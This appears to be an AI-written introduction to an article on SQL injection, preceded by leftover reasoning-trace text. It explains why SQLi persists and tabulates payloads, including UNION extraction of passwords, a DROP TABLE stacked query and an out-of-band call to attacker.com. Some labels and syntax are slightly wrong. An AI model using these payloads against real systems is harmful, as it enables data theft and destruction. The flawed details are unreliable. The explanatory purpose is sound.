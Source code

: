 This way, the introduction covers all necessary points with depth. The table will be placed after introducing the attack vectors, making the section comprehensive.

Now, I need to ensure that each paragraph flows logically and provides enough detail. Let me check the search results again for any key points I might have missed. The search results also mention evasion tactics like encoding (hex, ASCII) and alternative SQL syntax. These can be mentioned in the article's purpose paragraph.

Also, the critical tactics like prioritizing high-risk inputs (auth mechanisms), obfuscation, lateral movement. These could be part of the evasion tactics mentioned in the purpose.

Alright, time to draft the full introduction with these elements, including the table.
</think>

## Introduction  

SQL injection (SQLi) remains one of the most pervasive and impactful cybersecurity threats, enabling attackers to manipulate backend databases by injecting malicious SQL code into vulnerable web application inputs. This attack vector exploits weaknesses in input validation and insecure coding practices, allowing unauthorized access to sensitive data, system compromise, or even full control over the database. By embedding malicious SQL statements into user-supplied inputs—such as login forms, search bars, URL parameters, or API endpoints—attackers can bypass security measures, extract confidential information, or execute arbitrary commands. Despite decades of awareness and mitigation frameworks, SQLi persists as a critical vulnerability due to legacy systems, third-party integrations, and human error in software development.  

The persistence of SQLi can be attributed to several factors. Legacy systems often rely on outdated frameworks or deprecated libraries (e.g., PHP’s `mysql_` functions) that lack modern security features. Third-party components, such as content management systems or plugins, may introduce unpatched vulnerabilities, creating hidden entry points for attackers. Additionally, human error—such as developers failing to implement parameterized queries, neglecting input sanitization, or mishandling error messages—continues to enable SQLi exploitation. These factors collectively ensure that SQLi remains a top-ranked vulnerability in the OWASP Top 10 and a frequent vector in data breaches.  

The consequences of a successful SQLi attack are severe. Attackers can exfiltrate sensitive data (e.g., user credentials, financial records, personally identifiable information), manipulate or delete critical database entries, or escalate privileges to gain administrative control. Beyond direct financial losses, organizations face reputational damage, legal penalties, and loss of customer trust. For instance, a breach exposing customer data may trigger regulatory fines under frameworks like GDPR, while unauthorized database access could enable further attacks, such as ransomware deployment or lateral movement across networks.  

This article delves into the technical mechanisms attackers employ to exploit SQLi vulnerabilities, emphasizing evasion tactics and mitigation strategies. By dissecting attack vectors, identification methods, and post-exploitation techniques, the research aims to equip both ethical hackers and defenders with actionable insights. For attackers, understanding these methodologies is critical for conducting penetration tests and identifying system weaknesses. For defenders, this knowledge informs the development of robust security practices, such as input validation, parameterized queries, and error message hardening.  

### Common SQL Injection Attack Vectors  
The following table summarizes key SQLi attack types, their mechanisms, and example payloads:  

| **Attack Vector**       | **Description**                                                                 | **Example Payload**                                                                 |  
|-------------------------|---------------------------------------------------------------------------------|------------------------------------------------------------------------------------|  
| **Error-Based SQLi**     | Exploits verbose error messages to extract database schema or data.             | `' OR 1=1--` (triggers a boolean condition to reveal data or error messages).      |  
| **Union-Based SQLi**     | Combines injected queries with legitimate ones using `UNION` to retrieve data.  | `' UNION SELECT NULL, username, password FROM users--`                             |  
| **Blind SQLi**           | Infers data through indirect application responses (e.g., time delays, boolean logic). | **Boolean-Based**: `' AND (SELECT COUNT(*) FROM users) > 0--`<br>**Time-Based**: `'; WAITFOR DELAY '0:0:5'--` |  
| **Stacked Queries**      | Injects multiple SQL statements to execute arbitrary commands.                  | `' DROP TABLE users;--`                                                            |  
| **Out-of-Band SQLi**     | Exfiltrates data via external DNS or HTTP requests.                            | `xp_dirtree '\\attacker.com\exploit',1,1--` (MSSQL)                                |  
